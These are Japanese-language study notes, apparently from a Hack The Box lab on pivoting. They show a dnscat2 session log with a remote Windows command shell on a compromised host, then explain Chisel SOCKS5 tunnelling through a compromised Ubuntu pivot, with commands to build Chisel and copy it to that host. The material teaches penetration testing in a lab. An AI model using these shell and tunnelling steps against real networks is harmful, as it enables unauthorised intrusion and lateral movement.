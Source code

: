 
dnscat2でのやり取り
```shell-session
dnscat2> window -i 1
New window created: 1
history_size (session) => 1000
Session 1 Security: ENCRYPTED AND VERIFIED!
(the security depends on the strength of your pre-shared secret!)
This is a console session!

That means that anything you type will be sent as-is to the
client, and anything they type will be displayed as-is on the
screen! If the client is executing a command and you don't
see a prompt, try typing 'pwd' or something! 

To go back, type ctrl-z.

Microsoft Windows [Version 10.0.18363.1801]
(c) 2019 Microsoft Corporation. All rights reserved.

C:\Windows\system32>
exec (OFFICEMANAGER) 1>
```


# SOCKS5 トンネリングを Chisel で実現する
- Chisel は、TCP/UDP ベースのトンネリングツールで、Go 言語で書かれており、データの転送には HTTP を使用し、SSH によってセキュアに通信を行う
- Chisel を利用すると、ファイアウォールで制限された環境でも、クライアントとサーバー間でトンネル接続を確立できるのが特徴

シナリオ : 内部ネットワークの Web サーバーへのトンネリング
- 例えば、攻撃者が 172.16.5.0/23（内部ネットワーク）の Web サーバーにアクセスしたい 状況を考える
- しかし、攻撃ホストとドメインコントローラー（172.16.5.19）は異なるネットワークセグメントにあり、直接アクセスできない。
- ただし、すでに Ubuntu サーバーを侵害している場合、これをピボットホストとして利用可能！
- この Ubuntu サーバー上で Chisel のサーバーを起動し、特定のポートでリスニングさせる
- Chisel トンネルを介して、内部ネットワークへのトラフィックを転送できる！

## Chiselでのピボットを介した通信
Chiselの設定

攻撃ホストにインストールする
```sh
snowyowl644@htb[/htb]$ git clone https://github.com/jpillora/chisel.git
```

ビルド
```sh
snowyowl644@htb[/htb]$ cd chisel
go build
```

Chisel Binary を Pivot Host に転送する
```sh
scp chisel ubuntu@10.129.202.64:~/
```
